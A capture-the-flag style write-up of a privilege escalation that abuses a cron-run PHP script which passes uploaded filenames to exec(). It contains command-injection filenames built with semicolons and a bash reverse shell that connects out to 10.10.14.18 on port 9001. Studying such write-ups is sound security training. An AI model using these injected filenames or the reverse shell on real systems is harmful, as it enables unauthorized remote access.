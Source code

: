 # 15 - PrivEsc


# Cronjobs in user guly's home directory
```
bash-4.2$ ls -la
total 28
drwxr-xr-x. 2 guly guly 159 Jul  9  2019 .
drwxr-xr-x. 3 root root  18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root   9 Jul  2  2019 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly  18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly 193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly 231 Oct 30  2018 .bashrc
-rw-------  1 guly guly 639 Jul  9  2019 .viminfo
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-r--r--r--. 1 guly guly  33 Oct 30  2018 user.txt
```
# crontab.guly

```
bash-4.2$ cat crontab.guly 
*/3 * * * * php /home/guly/check_attack.php
```
it runs every 3rd minutes



# Vulnerability
```
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';

  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);


    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
?>
```

It scans the upload directory and stores the names in `$value`. If a filename doesn't contain an ip address it considers that an attack and tries to remove the file.  This operation is done by `exec` which runs /bin/sh in the background and we have control over `$value`. A semicolon in the filename finishes the command before it and after the semicolon becomes another command. We can inject code by adding semicolons in a filename in uploads directory. One of the best ways to get a shell would  be placing a reverse shell in guly's home directory and executing it.

# Create shell.sh and give full permissions 
```
bash-4.2$ pwd
/var/www/html/uploads
bash-4.2$ touch  "x;touch shell.sh;chmod 777 shell.sh; id"
```

Files are relative to guly's home directory because  it is run from  there. We can't use forward slashes in filenames. 

# shell.sh
```
bash-4.2$ pwd 
/home/guly
bash-4.2$ ls -l
total 16
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-rwxrwxrwx  1 guly guly  42 Jul 10 16:10 shell.sh
-r--------. 1 guly guly  33 Oct 30  2018 user.txt
bash-4.2$ cat shell.sh 
bash -i >& /dev/tcp/10.10.14.18/9001 0>&1
```


# Execute the reverse shell
```
bash-4.2$ pwd
/var/www/html/uploads
bash-4.2$ mv "x;touch shell.sh;chmod 777 shell.sh; id" "x;bash shell.sh; id"
```
Replace the previous file with `"x;bash shell.sh; id"`

# Shell
![](vx_images/4066669737401.png)